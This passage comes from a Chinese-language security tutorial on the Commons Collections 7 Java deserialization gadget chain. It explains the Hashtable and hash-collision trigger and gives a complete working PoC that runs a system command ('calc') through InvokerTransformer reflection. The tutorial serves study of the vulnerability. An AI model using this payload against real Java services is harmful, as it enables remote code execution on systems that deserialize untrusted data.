这里使用 `Hashtable` 来充当反序列化链的触发点，其反序列化过程中调用了自身的 `reconstitutionPut` 方法，Hashtable 类的关键代码如下：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>``` | ```java<br>//Hashtable 的 readObject 方法<br>private void readObject(java.io.ObjectInputStream s)<br>         throws IOException, ClassNotFoundException<br>    {<br>       ………………<br>        for (; elements > 0; elements--) {<br>            K key = (K)s.readObject();<br>            V value = (V)s.readObject();<br><br>            //reconstitutionPut方法<br>            reconstitutionPut(newTable, key, value);<br>        }<br>        this.table = newTable;<br>    }<br><br><br>//跟进 reconstitutionPut 方法<br>    private void reconstitutionPut(Entry<K,V>[] tab, K key, V value)<br>    throws StreamCorruptedException<br>{<br>    ...<br>    int hash = hash(key);<br>    int index = (hash & 0x7FFFFFFF) % tab.length;<br>    for (Entry<K,V> e = tab[index] ; e != null ; e = e.next) {<br>        if ((e.hash == hash) && e.key.equals(key)) {<br>            throw new java.io.StreamCorruptedException();<br>        }<br>    }<br>    Entry<K,V> e = tab[index];<br>    tab[index] = new Entry<>(hash, key, value, e);<br>    count++;<br>}<br>``` |

而这里想要触发 `equals` 方法需要满足两个条件：

-   `tab[index] != null`：即相同的 `index` 应出现两次
-   `e.hash == hash`：即两个相同的 `index` 对应的 `Entry` 的键对应的 `hash` 相同

这里会发现 `hash` 相同则 `index` 一定相同，所以可能会认为只要设置两个相同的 `key` 使得 `hash` 相同即可。

相同的 `key` 确实可以触发 `equals`，但是回到一开始的 `LazyMap.get` 的触发条件，`get` 需要接收一个不存在的 `key` 才可以触发 `transform`，所以需要找到两个值不相等但 `hash` 相等的变量。

这里 ysoserial 用了字符串，查看 `String.hashCode` ：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>``` | ```java<br>public int hashCode() {<br>    int h = hash;<br>    if (h == 0 && value.length > 0) {<br>        char val[] = value;<br><br>        for (int i = 0; i < value.length; i++) {<br>            h = 31 * h + val[i];<br>        }<br>        hash = h;<br>    }<br>    return h;<br>}<br>``` |

这里只需要找到四个字符分成两个不同的组(AB、CD)，使得 `31 * A + B == 31 * C + D` 即可。ysoserial 中使用了 yy 和 zZ，但这里还存在很多种可能。

### [](#43-poc)4.3 POC

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>41<br>42<br>43<br>44<br>45<br>46<br>47<br>48<br>49<br>50<br>51<br>52<br>53<br>54<br>55<br>56<br>57<br>58<br>59<br>60<br>61<br>62<br>63<br>64<br>65<br>66<br>67<br>``` | ```java<br>import org.apache.commons.collections.Transformer;<br>import org.apache.commons.collections.functors.ChainedTransformer;<br>import org.apache.commons.collections.functors.ConstantTransformer;<br>import org.apache.commons.collections.functors.InvokerTransformer;<br>import org.apache.commons.collections.map.LazyMap;<br><br>import java.io.*;<br>import java.lang.reflect.Field;<br>import java.util.HashMap;<br>import java.util.Hashtable;<br>import java.util.Map;<br><br>public class CommonsCollections7 {<br><br>    public static void main(String[] args) throws IllegalAccessException, IOException, ClassNotFoundException, NoSuchFieldException {<br><br>        Transformer[] fakeTransformer = new Transformer[]{};<br><br>        Transformer[] transformers = new Transformer[] {<br>                new ConstantTransformer(Runtime.class),<br>                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),<br>                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),<br>                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})<br>        };<br><br>        //ChainedTransformer实例<br>        //先设置假的 Transformer 数组，防止生成时执行命令<br>        Transformer chainedTransformer = new ChainedTransformer(fakeTransformer);<br><br>        //LazyMap实例<br>        Map innerMap1 = new HashMap();<br>        Map innerMap2 = new HashMap();<br><br>        Map lazyMap1 = LazyMap.decorate(innerMap1,chainedTransformer);<br>        lazyMap1.put("yy", 1);<br><br>        Map lazyMap2 = LazyMap.decorate(innerMap2,chainedTransformer);<br>        lazyMap2.put("zZ", 1);<br><br>        Hashtable hashtable = new Hashtable();<br>        hashtable.put(lazyMap1, "test");<br>        hashtable.put(lazyMap2, "test");<br><br><br>        //通过反射设置真的 ransformer 数组<br>        Field field = chainedTransformer.getClass().getDeclaredField("iTransformers");<br>        field.setAccessible(true);<br>        field.set(chainedTransformer, transformers);<br><br>        //上面的 hashtable.put 会使得 lazyMap2 增加一个 yy=>yy，所以这里要移除<br>        lazyMap2.remove("yy");<br><br>        //序列化<br>        ByteArrayOutputStream baos = new ByteArrayOutputStream();<br>        ObjectOutputStream oos = new ObjectOutputStream(baos);<br>        oos.writeObject(hashtable);<br>        oos.flush();<br>        oos.close();<br><br>        //测试反序列化<br>        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());<br>        ObjectInputStream ois = new ObjectInputStream(bais);<br>        ois.readObject();<br>        ois.close();<br>    }<br><br>}<br>``` |

## [](#%E5%8F%82%E8%80%83)参考

[phith0n Java 漫谈系列](https://wx.zsxq.com/dweb2/index/group/2212251881)

[Java反序列化漏洞原理解析](https://xz.aliyun.com/t/6787#toc-11)

[Java反序列化漏洞从入门到关门](https://www.freebuf.com/articles/web/271275.html)

[从0开始学Java反序列化漏洞](https://yinwc.github.io/2020/02/08/java%e5%8f%8d%e5%ba%8f%e5%88%97%e5%8c%96%e6%bc%8f%e6%b4%9e/)

[深入理解 JAVA 反序列化漏洞](https://paper.seebug.org/312/)

[Java反序列化利用链补全计划](https://0range228.github.io/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%A9%E7%94%A8%E9%93%BE%E8%A1%A5%E5%85%A8%E8%AE%A1%E5%88%92/)

[Commons-Collections 利用链分析](https://wx.zsxq.com/dweb2/index/group/2212251881)

[CC链 1-7 分析](https://xz.aliyun.com/t/9409)

[Java 安全学习 Day2 – ysoserial CC 系列](https://x5tar.com/posts/java-sec-day2/)
